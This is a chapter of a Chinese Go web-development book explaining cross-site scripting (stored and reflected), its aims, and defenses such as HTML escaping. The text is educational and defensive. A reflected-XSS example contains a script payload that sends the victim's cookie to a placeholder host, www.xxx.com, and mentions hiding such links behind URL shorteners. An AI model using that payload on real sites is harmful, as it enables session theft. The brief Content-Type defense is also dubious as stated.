##9.3 避免XSS攻击 
随着互联网技术的发展，现在的Web应用都含有大量的动态内容以提高用户体验。所谓动态内容，就是，Web应用程序能够根据用户环境和需要，输出相应的内容。动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。

##什么是XSS
XSS攻击：跨站脚本攻击(Cross-Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。XSS是一种经常出现在web应用中的计算机安全漏洞，它允许恶意web用户将代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。XSS的攻击目标是为了盗取客户端的cookie或者其他网站用于识别客户端身份的敏感信息。获取到合法用户的信息后，攻击者甚至可以假冒最终用户与网站进行交互。

XSS通常可以分为两大类：一类是存储型XSS，主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。这个流程简单可以描述为:恶意用户的Html输入Web程序->进入数据库->Web程序->用户浏览器。另一类是反射型XSS，主要是将脚本加入URL地址的程序参数里，参数进入程序后在页面直接输出脚本内容，用户点击类似的恶意链接就可能受到攻击。

XSS目前主要的手段和目的如下：

- 盗用cookie，获取敏感信息。
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

##XSS的原理
Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。

接下来以反射性XSS举例说明XSS的过程：现在有一个网站，根据参数输出用户的名称，例如访问url：`http://127.0.0.1/?name=astaxie`，就会在浏览器输出如下信息：

	hello astaxie

如果我们传递这样的url：`http://127.0.0.1/?name=<script>alert(&#39;astaxie,xss&#39;)</script>`,这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。那么恶意用户是如何盗取Cookie的呢？与上类似，如下这样的url：`http://127.0.0.1/?name=<script>document.location='http://www.xxx.com/cookie?'%20+document.cookie</script>`，这样就可以把当前的cookie发送到指定的站点：www.xxx.com。你也放会说，这样的URL一看就有问题，怎么会有人点击？，是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短，你还看得出来么？，攻击者将缩短过后的url通过某些途径传播开来，被攻击用户一旦点击了这样的url，相应cookie数据就会被发送事先设定好的站点，这样就盗得了cookie信息，然后就可以利用Websleuth之类的工具来检查是否能盗取那个可怜的用户的账户信息了。

更加详细的关于XSS的分析大家可以参考这篇叫做《新浪微博XSS事件分析》的文章（http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html） 

##如何预防XSS
答案很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。

目前防御XSS主要有如下几种方式：

- 过滤特殊字符
	
	避免XSS的方法之一主要是将用户所提供的内容进行过滤，Go语言提供了HTML的过滤函数：

	text/template包下面的HTMLEscapeString、JSEscapeString等函数

- 使用HTTP头指定类型
	
	w.Header().Set("Content-Type","text/javascript")

	这样就可以让浏览器解析javascript代码，而不会是html输出。


##总结
XSS漏洞是相当有危害的，在开发Web应用的时候，一定要记住过滤数据，特别是在输出到客户端之前，这是现在行之有效的防止XSS的手段。

## links
   * [目录](<preface.md>)
   * 上一节: [确保输入过滤](<9.2.md>)
   * 下一节: [避免SQL注入](<9.4.md>)

## LastModified 
   * $Id$